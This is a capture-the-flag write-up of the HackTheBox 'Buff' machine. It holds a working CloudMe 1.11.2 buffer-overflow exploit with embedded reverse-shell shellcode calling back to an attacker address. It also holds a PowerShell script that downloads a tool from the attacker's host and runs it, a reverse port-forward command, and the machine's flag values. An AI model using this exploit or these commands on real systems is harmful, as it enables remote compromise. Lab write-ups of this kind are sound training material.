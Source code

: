 ```yaml
---
Category: B2R
Difficulty: Easy
Platform: HackTheBox
Retired: true
Status: 3. Complete
Tags:
  - CloudMe
  - Gym-Management-System
  - RCE
  - buffer-overflow
  - exploit-dev
  - port-forwarding
  - Windows
---
```

# Resolution summary

>[!summary]
>- Gym Management System running on port 8080 is vulnerable to RCE
>- CloudMe service running on local port 8888 is vulnerable to Buffer Overflow
>- The PoC and the installer can be downloaded locally in order to develop the exploit, forward the local port and perform privilege escalation

## Improved skills

- Exploit known vulnerabilities
- Buffer overflow exploitation
- Fix known exploits
- Port forwarding

## Used tools

- nmap
- gobuster
- known exploits
- msfvenom
- plink.exe

---

# Information Gathering

Scanned all TCP ports:

```bash
root@kali:~/CTF/HackTheBox/Machine/Buff# nmap 10.10.10.198 -p 8080,7680 -sC -oA files/nmap/open-services
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-22 21:43 CEST
Nmap scan report for 10.10.10.198
Host is up (0.037s latency).

PORT     STATE SERVICE
7680/tcp open  pando-pub
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: mrb3n's Bro Hut

Nmap done: 1 IP address (1 host up) scanned in 10.76 seconds
```

# Enumeration

## Port 8080 - HTTP (Gym Management Software 1.0)

![2020-07-22-23-01-43.png](../../zzz_res/attachments/2020-07-22-23-01-43.png)

“Gym Management Software 1.0” == **Gym Management System 1.0**

# Exploitation

## Gym Management System 1.0 - Unauthenticated Remote Code Execution

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/48506)

![2020-07-22-23-04-20.png](../../zzz_res/attachments/2020-07-22-23-04-20.png)

![2020-07-22-23-26-40.png](../../zzz_res/attachments/2020-07-22-23-26-40.png)

# Privilege Escalation

## Local enumeration

Discovered CloudMe_1112 installer:

![18471753064989ce956ecd9d34bd149b.png](../../zzz_res/attachments/18471753064989ce956ecd9d34bd149b.png)

Enumerated listening ports:

```powershell
Proto  Local Address          Foreign Address        State

  TCP    0.0.0.0:135            BUFF:0                 LISTENING
  TCP    0.0.0.0:445            BUFF:0                 LISTENING
  TCP    0.0.0.0:5040           BUFF:0                 LISTENING
  TCP    0.0.0.0:7680           BUFF:0                 LISTENING
  TCP    0.0.0.0:8080           BUFF:0                 LISTENING
  TCP    0.0.0.0:49664          BUFF:0                 LISTENING
  TCP    0.0.0.0:49665          BUFF:0                 LISTENING
  TCP    0.0.0.0:49666          BUFF:0                 LISTENING
  TCP    0.0.0.0:49667          BUFF:0                 LISTENING
  TCP    0.0.0.0:49668          BUFF:0                 LISTENING
  TCP    0.0.0.0:49669          BUFF:0                 LISTENING
  TCP    10.10.10.198:139       BUFF:0                 LISTENING
  TCP    10.10.10.198:8080      10.10.14.29:48092      ESTABLISHED
  TCP    10.10.10.198:8080      10.10.14.39:40996      CLOSE_WAIT
  TCP    10.10.10.198:8080      10.10.14.39:41084      ESTABLISHED
  TCP    10.10.10.198:49697     10.10.14.39:http       ESTABLISHED
  TCP    10.10.10.198:49707     10.10.14.29:4000       ESTABLISHED
  TCP    127.0.0.1:3306         BUFF:0                 LISTENING
  TCP    127.0.0.1:8888         BUFF:0                 LISTENING
```

## CloudMe 1.11.2 - Buffer Overflow (PoC)

- [Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/48389)
- [Practical Exploitation Part [1] (CloudMe Sync 1.11.2 BufferOverFlow + SEH)](https://bufferoverflows.net/practical-exploitation-part-1-cloudme-sync-1-11-2-bufferoverflow-seh/)

Moved the CloudMe_1112.exe file locally and fixed the PoC:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.39 LPORT=443 -a x86 -f python -b  '\x00\x0A\x0D' --> LEN 351
buf =  b""                                                                                               
buf += b"\xbd\xae\xea\xd2\xc4\xd9\xc3\xd9\x74\x24\xf4\x58\x31"                                           
buf += b"\xc9\xb1\x52\x31\x68\x12\x83\xc0\x04\x03\xc6\xe4\x30"                                           
buf += b"\x31\xea\x11\x36\xba\x12\xe2\x57\x32\xf7\xd3\x57\x20"
buf += b"\x7c\x43\x68\x22\xd0\x68\x03\x66\xc0\xfb\x61\xaf\xe7"
buf += b"\x4c\xcf\x89\xc6\x4d\x7c\xe9\x49\xce\x7f\x3e\xa9\xef"
buf += b"\x4f\x33\xa8\x28\xad\xbe\xf8\xe1\xb9\x6d\xec\x86\xf4"
buf += b"\xad\x87\xd5\x19\xb6\x74\xad\x18\x97\x2b\xa5\x42\x37"
buf += b"\xca\x6a\xff\x7e\xd4\x6f\x3a\xc8\x6f\x5b\xb0\xcb\xb9"
buf += b"\x95\x39\x67\x84\x19\xc8\x79\xc1\x9e\x33\x0c\x3b\xdd"
buf += b"\xce\x17\xf8\x9f\x14\x9d\x1a\x07\xde\x05\xc6\xb9\x33"
buf += b"\xd3\x8d\xb6\xf8\x97\xc9\xda\xff\x74\x62\xe6\x74\x7b"
buf += b"\xa4\x6e\xce\x58\x60\x2a\x94\xc1\x31\x96\x7b\xfd\x21"
buf += b"\x79\x23\x5b\x2a\x94\x30\xd6\x71\xf1\xf5\xdb\x89\x01"
buf += b"\x92\x6c\xfa\x33\x3d\xc7\x94\x7f\xb6\xc1\x63\x7f\xed"
buf += b"\xb6\xfb\x7e\x0e\xc7\xd2\x44\x5a\x97\x4c\x6c\xe3\x7c"
buf += b"\x8c\x91\x36\xd2\xdc\x3d\xe9\x93\x8c\xfd\x59\x7c\xc6"
buf += b"\xf1\x86\x9c\xe9\xdb\xae\x37\x10\x8c\xda\xcd\x14\x6b"
buf += b"\xb3\xd3\x28\x72\xf8\x5d\xce\x1e\xee\x0b\x59\xb7\x97"
buf += b"\x11\x11\x26\x57\x8c\x5c\x68\xd3\x23\xa1\x27\x14\x49"
buf += b"\xb1\xd0\xd4\x04\xeb\x77\xea\xb2\x83\x14\x79\x59\x53"
buf += b"\x52\x62\xf6\x04\x33\x54\x0f\xc0\xa9\xcf\xb9\xf6\x33"
buf += b"\x89\x82\xb2\xef\x6a\x0c\x3b\x7d\xd6\x2a\x2b\xbb\xd7"
buf += b"\x76\x1f\x13\x8e\x20\xc9\xd5\x78\x83\xa3\x8f\xd7\x4d"
buf += b"\x23\x49\x14\x4e\x35\x56\x71\x38\xd9\xe7\x2c\x7d\xe6"
buf += b"\xc8\xb8\x89\x9f\x34\x59\x75\x4a\xfd\x69\x3c\xd6\x54"
buf += b"\xe2\x99\x83\xe4\x6f\x1a\x7e\x2a\x96\x99\x8a\xd3\x6d"
buf += b"\x81\xff\xd6\x2a\x05\xec\xaa\x23\xe0\x12\x18\x43\x21"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + buf))

expl = padding1 + EIP + NOPS + buf + overrun

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(expl)
except Exception as e:
        print(sys.exc_value)
```

Created a wget script to copy plink.exe in order to expose local port 8888:

```powershell
echo '$webclient = New-Object System.Net.WebClient' > wget.ps1
echo '$url = "http://10.10.14.39/plink-x64.exe"' >>wget.ps1
echo '$file = "plink.exe"' >>wget.ps1
echo '$webclient.DownloadFile($url,$file)' >>wget.ps1
		
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

.\plink.exe -ssh -l root -R 8888:127.0.0.1:8888 10.10.14.39
```

![1cd90c62496ddfac40291e3ccdca6c9f.png](../../zzz_res/attachments/1cd90c62496ddfac40291e3ccdca6c9f.png)

![f22d6b4d0d6c7ddd22d3418e69733305.png](../../zzz_res/attachments/f22d6b4d0d6c7ddd22d3418e69733305.png)

![5f2268f30a39e52d1896668473c6d3b7.png](../../zzz_res/attachments/5f2268f30a39e52d1896668473c6d3b7.png)

# Trophy

>[!quote]
>It is better to have your head in the clouds, and know where you are... than to breathe the clearer atmosphere below them, and think that you are in paradise.
>
>\- Henry David Thoreau 

>[!success]
>**User.txt**
>4b5b023a28f09d7bbace384b13095dfe

>[!success]
>**Root.txt**
>a19f68f858b4464cdc8a7d5415d7bd0f


